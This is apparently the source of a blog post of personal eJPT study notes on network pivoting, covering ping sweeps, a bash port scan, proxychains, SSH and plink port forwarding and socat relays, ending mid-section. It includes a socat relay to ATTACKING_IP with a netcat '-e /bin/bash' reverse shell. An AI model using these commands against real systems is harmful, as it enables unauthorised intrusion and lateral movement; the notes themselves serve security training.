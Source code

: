 ```yaml
---
title: Pivoting Notes
date: 2021-09-24
categories:
  - Notes
tags:
  - EJPT
  - Notes
  - Pivoting
excerpt_separator: <!--more-->
toc: true
toc_sticky: true
---
```

WIP
<!--more-->

<h2 id="pivoting">Pivoting</h2>
<h3>Bash Simple Ping sweep</h3>
<code>for i in {1..255}; do (ping -c 1 192.168.1.${i} | grep "bytes from" &); done</code>
<h3>Bash Simple portscan</h3>
<code>for i in {1..65535}; do (echo > /dev/tcp/192.168.1.1/$i) >/dev/null 2>&1 && echo $i is open; done</code>
<h3>Proxy tools</h3>
<h4>Proxychains</h4>
<p>example to proxy a netcat</p>
<code>proxychains nc 172.16.0.10 23</code>
<p>notes:</p>
  <ul>
    <li>when using nmap w/ proxychains comment out proxy_dns inside the proxychains.conf file</li>
    <li>only tcp scan will work</li>
    <li>udp, syn and ping scan wont work - use -Pn</li>
  </ul>
<h4>Foxyproxy</h4>
<p>proxy for routing browser traffic</p>
<h3>SSH Tunneling / Port Forwarding</h3>
<h4>Port Forwarding - Local: From attacker to victim via SSH</h4>
<p>Attacker --ssh--> 172.16.0.5 --http--> 172.16.0.10</p>
<code>ssh -L 8000:172.16.0.10:80 user@172.16.0.5 -fN</code>
  <ul>
    <li>-f = backgrounds shell immediately</li>
    <li>-N = tells SSH that it doesn;t need to execute any commands - and just set up the connection</li>
  </ul>
<p>Now we can access the webserver on 172.16.0.10 using our own box localhost:8000</p>
<h5>Proxies</h5>
<code>ssh -D 1337 user@172.16.0.5 -fN</code>
<p>Will open port 1337 on attacker's machine as a proxy to send data through the 172.16.0.5 network - useful when combined with proxy chains -  just make sure proxy chains conf is configured correctly</p>
<h4>Reverse Connection</h4>
<p>used when we got a shell in the victim's machine but no SSH access</p>

<li>Generate ssh key - add pub to our attacker's authorized keys - add the following lines at the beginning of the pub key to prevent reverse shell and only allow port forwarding</li>
<code>command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-x11-forwarding,no-pty</code>
<code>ssh -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE -fN</code>
<p>we have a shell on victim(.05) and we want to use it as a reverse connection from our machine(.20) to webseserver victim(.10)</p>
<h4>Plink.exe for Windows</h4>
<p>Command line version of PuTTY SSH Client</p>
<p>reverse connection from victim to our attacker</p>
<code>cmd.exe /c echo y | .\plink.exe -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE -N</code>
<p>.20 -  attacker | .05 victim that we have a shell from | .10 another victim</p>
<p>for the keyfile we need to convert it using puttygen tool</p>
<code>puttygen KEYFILE -o OUTPUT_KEY.ppk</code>
<h4>Socat</h4>
<p>Static Binaries for Socat</p>
<a href="https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat">Socat for Linux | </a>
<a href="https://sourceforge.net/projects/unix-utils/files/socat/1.7.3.2/socat-1.7.3.2-1-x86_64.zip/download">Socat for Windows</a>
<p>Watch IPPSEC do hackthebox - worker</p>

<p>Reverse Shell Relay</p>
<code>./socat tcp-l:8000 tcp:ATTACKING_IP:443 &</code>
<ul>
  <li>tcp-l:8000 = used to create the first half of the connection -- ipv4 listener on tcp port 8000 of the victim</li>
  <li>tcp:attacking_ip:443 = connects back to our local IP on port 443</li>
  <li>& =  backgrounds the listener</li>
</ul>
<p>this will connect back to our machine so we need to setup a netcat listener</p>
<code>./nc-hyst 127.0.0.1 8000 -e /bin/bash</code>
<p>Port Forwarding using Socat</p>
<code>./socat tcp-l:33060,fork,reuseaddr tcp:172.16.0.10:3306 &</code>


<h2>Reverse SSH tunnel</h2>
<p> victim local port 127.0.0.1:8080? use this</p>
<code>ssh -L 4444:10.10.125.232:8080</code>
<li>4444 port of victim you will access from outside</li>
<li>10.10.125.232 victim ip</li>
<li>8080 local port you want to access inside the victim</li>

<h2>remote port forwarding</h2>
<p>attacking machine</p>